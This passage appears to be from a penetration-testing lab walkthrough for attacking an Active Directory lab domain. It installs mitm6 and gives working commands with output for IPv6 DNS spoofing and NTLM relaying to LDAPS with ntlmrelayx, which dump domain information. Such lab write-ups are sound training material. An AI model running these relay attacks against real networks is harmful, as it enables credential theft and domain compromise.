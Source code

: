 
First of all install [pimpmykali](https://github.com/Dewalt-arch/pimpmykali) cos' the tool `mitm6` doesn't come pre-installed with kali linux

![](https://i.imgur.com/SyvCBNl.png)

Change directory to `/opt/mitm6` and install the necessary requirements

```shell
sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd /opt/mitm6      

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ sudo pip2 install .

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd ~         

sec-fortress@Pwn-F0rk-3X3C:~$ 
```

![](https://i.imgur.com/jIbtM8b.jpg)

### Setting up ntlmrelayx and mitm6

On your terminal do :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ ntlmrelayx.py -6 -t ldaps://192.168.0.110 -wh fakewpad.marvel.local -l bankai

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
```

Note that `-6` represents IPv6 `-t` for targets `-wh` for fake web proxy auto-discovery `-l` will create a folder named **bankai**

Then start up the `mitm6` server with the following command :

```shell
sec-fortress@Pwn-F0rk-3X3C:~$ sudo mitm6 -d marvel.local
```

![](https://i.imgur.com/S8Go70A.png)

Now we can go ahead and re-boot our `THE-PUNISHER` machine and focus on our terminal

![](https://i.imgur.com/3DID7Ig.png)

Checking your present folder, `~/PEH/AD` , you should have a folder with the folder name when you specified the `-l` option, this folder contains sensitive files in **html, grep and json** format (HTML formats are the best)

The highlighted ones are very important

![](https://i.imgur.com/yysEMrW.png)

We can also create a new

